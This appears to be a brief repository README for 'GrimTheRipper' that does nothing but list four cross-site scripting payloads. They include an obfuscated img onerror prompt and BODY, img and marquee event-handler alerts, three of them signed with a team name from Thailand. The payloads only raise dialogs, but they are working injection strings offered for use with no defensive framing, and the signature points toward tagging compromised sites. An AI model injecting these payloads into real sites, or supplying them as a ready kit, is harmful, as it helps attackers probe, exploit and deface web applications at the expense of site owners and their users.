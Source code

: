 # GrimTheRipper

## XSS Payloads
`<img/&#09;&#10;&#11; src=~ onerror=prompt(1)>`

`<BODY ONLOAD=alert('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

`<img src=x onerror=confirm('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

`<marquee BODY ONSTART=alert('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>=(◕_◕)=`
